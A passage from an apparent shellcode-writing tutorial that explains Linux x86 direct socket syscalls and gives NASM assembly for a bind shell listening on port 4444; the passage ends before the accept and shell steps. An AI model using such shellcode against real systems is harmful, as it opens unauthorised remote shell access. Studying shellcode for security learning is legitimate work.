 ### 2nd version using syscalls
------------------------------
The 2nd version of this bind shellcode uses the new syscalls. According to the following [kernel patch](https://patchwork.kernel.org/patch/146431/), sometimes in 2010 they added new syscall entries for non-multiplexed socket calls.

The ones that interest us are:

```c
#define __NR_socket 359
#define __NR_bind 361
#define __NR_connect 362
#define __NR_listen 363
#define __NR_accept4 364
```

Instead of using `sys_socketcall`, we can use those syscalls directly and put the arguments in the registers. The same code flow is used but the arguments are passed differently.

The second version of the shellcode looks like this:

```nasm
global _start

section .text

_start:

    ; Zero registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; Create socket
    mov ax, 0x167       ; sys_socket
    mov bl, 0x2         ; int domain -> AF_INET
    inc ecx             ; int type -> SOCK_STREAM
    mov dl, 0x6         ; int protocol -> IPPROTO_TCP
    int 0x80            ; sys_socket
    mov edi, eax        ; save socket fd

    ; Create addr struct
    xor edx, edx
    push edx            ; NULL padding
    push edx            ; NULL padding
    push edx            ; sin.addr (0.0.0.0)
    push word 0x5c11    ; Port
    push word 0x2       ; AF_INET
    mov esi, esp

    ; Bind socket
    mov ax, 0x169       ; sys_bind
    mov ebx, edi        ; int sockfd -> saved socket fd
    mov ecx, esi        ; const struct sockaddr *addr
    mov dl, 0x10        ; socklen_t addrlen
    int 0x80            ; sys_bind

    ; Listen for connection
    mov ax, 0x16b       ; sys_listen
    mov ebx, edi        ; int sockfd -> saved socket fd
    xor ecx, ecx        ; int backlog -> NULL
    int 0x80            ; sys_socketcall (SYS_LISTEN)

    ; Accept connection
```